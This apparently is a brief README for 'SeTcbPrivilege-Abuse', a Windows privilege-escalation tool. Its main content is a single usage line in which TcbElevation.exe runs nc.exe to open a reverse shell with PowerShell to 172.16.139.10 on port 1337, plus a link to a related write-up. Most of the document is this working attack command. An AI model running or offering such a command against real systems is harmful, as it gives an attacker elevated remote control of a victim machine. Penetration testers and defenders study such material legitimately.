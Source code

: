 # SeTcbPrivilege-Abuse
Privilege Escalation with SeTcbPrivilege

```
.\TcbElevation.exe revshell101 "cmd.exe /c C:\temp\tools\nc.exe 172.16.139.10 1337 -e powershell.exe"
```

More info here: https://0xbara.xyz/posts/misc/tcbelevation
